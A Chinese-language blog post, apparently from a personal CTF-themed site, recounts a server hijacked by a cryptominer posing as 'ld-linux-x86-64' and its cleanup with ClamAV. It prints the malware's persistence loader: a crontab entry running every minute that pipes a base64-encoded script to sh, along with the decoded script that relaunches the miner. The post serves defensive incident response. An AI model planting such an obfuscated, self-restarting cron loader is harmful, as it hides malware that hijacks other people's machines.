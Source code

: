 ```yaml
---
title: ld-linux-x86-64 Linux矿机病毒
poc: true
categories:
  - - CTF
  - - '%e4%ba%8c%e8%bf%9b%e5%88%b6'
    - PWN
tags: []
id: '6'
date: 2021-03-27 17:53:57
---
```


之前的站点被sql注入然后提权了,服务器直接失联,同时还被删库了...

谨以此文记录

# 事发背景

笔者部署了一个自动健康打卡程序(我只是GitHub的搬运工(doge))突然不打卡了,然后ssh上去看看情况,结果发现ssh上不去了,整个服务器直接失联,人都傻了

直接重装服务器也并非一个明智的选择,因为所有备份数据需要ftp/ssh连上去服务器才可以开展

姑且先尝试在阿里云后台点击服务器关机,结果关都关不了,无奈之下选择强制关机,然后重新开机,成功连接ssh(后续发现数据库文件已损坏)

进去shell之后直接输入`top`命令

看到了一个可疑进程占用率极高,而且在不断攀升,不一会就变成了90%+

通过搜索进程名(ld-linux-x86-64)发现是个挖矿病毒

# 病毒细节

搜了一下发现变种比较多，这里讲一种个人感觉比较有意思的变种,说不定可以用来出一道密码学签到题23333

大致思路为:利用管道符加密，解密病毒脚本

```
echo "something encrypted by base64"  base64 -di  sh
```

echo的内容即为脚本病毒核心内容经base64加密(当然,也可以换成其他加密方式)后的字符串

# 杀毒

病毒的变种比较多,网上有的文章是test用户下的文件是病毒的核心文件(test用户是攻击者提权之后创建的),而有的是mysql用户,方法不一,最终笔者找到了一个泛用性较好的方法

在搜索的过程中,笔者首次了解到ClamAV这款Linux端开源杀毒软件，于是尝试使用其进行杀毒

```
#!/bin/sh
#CentOS 8.2
sudo dnf --enablerepo=extras install epel-release
sudo dnf update -y
yum install clamd -y
freshclam
service clamd start
chkconfig clamd on
clamscan -r / --move=/tmp
```

然后就会开始全盘扫描

上述代码中,最后一行的`/`是扫描的目录范围，`--move`选项是移至隔离区

扫描出来3个被感染的文件

删除之后问题仍然存在,说明有个进程会监听并拉起病毒程序,经网上文章提示,查看了一下crontab任务清单

`crontab -l`

发现可疑进程,每1分钟执行一次,内容如下

```
#!/usr/bin/env bash

echo 'IyEvYmluL3NoCmlmIHRlc3QgLXIgL3NiaW4vaW5pdGN0MTsgdGhlbgpwaWQ9JChjYXQgL3NiaW4v
aW5pdGN0MSkKaWYgJChraWxsIC1DSExEICRwaWQgPi9kZXYvbnVsbCAyPiYxKQp0aGVuCnNsZWVw
IDEKZWxzZQpjZCAvc2JpbgouL21rZTNmcyAmPi9kZXYvbnVsbApleGl0IDAKZmkKZmkK'  base64 -di  sh
```

base64解密后内容

```
#!/bin/sh
if test -r /sbin/initct1; then
pid=$(cat /sbin/initct1)
if $(kill -CHLD $pid >/dev/null 2>&1)
then
sleep 1
else
cd /sbin
./mke3fs &>/dev/null
exit 0
fi
fi
```

删除该用户的所有crontab,然后再次全盘扫描即可

但是攻击方究竟是如何注入进来的....

限于目前笔者水平,看不懂Linux网络日志emmmm,只好作罢